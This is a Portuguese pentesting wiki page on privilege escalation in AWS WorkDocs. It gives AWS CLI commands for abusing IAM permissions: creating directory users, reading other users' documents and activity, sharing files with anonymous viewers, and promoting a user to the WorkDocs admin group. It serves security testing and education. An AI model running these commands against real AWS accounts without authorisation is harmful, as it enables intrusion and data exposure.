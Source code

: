 # AWS - Escalação de Privilégios no WorkDocs

## WorkDocs

Para mais informações sobre o WorkDocs, consulte:

{% content-ref url="../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Crie um usuário dentro do diretório indicado e, em seguida, você terá acesso tanto ao WorkDocs quanto ao AD:

```bash
# Crie um usuário (criado dentro do AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Os arquivos podem conter informações sensíveis, leia-os:

```bash
# Obtenha o que foi criado no diretório
aws workdocs describe-activities --organization-id <directory-id>

# Obtenha o que cada usuário criou
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Obtenha o arquivo (será recuperada uma URL para acessar o conteúdo)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

Se você não tem acesso para ler algo, você pode simplesmente concedê-lo

```bash
# Adicione permissão para que qualquer pessoa possa ver o arquivo
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## Isso dará um ID, o arquivo será acessível em: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

Você pode tornar um usuário administrador definindo-o no grupo ZOCALO\_ADMIN.\
Para isso, siga as instruções em [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Faça login com esse usuário no workdoc e acesse o painel de administração em `/workdocs/index.html#/admin`

Não encontrei nenhuma maneira de fazer isso a partir da linha de comando.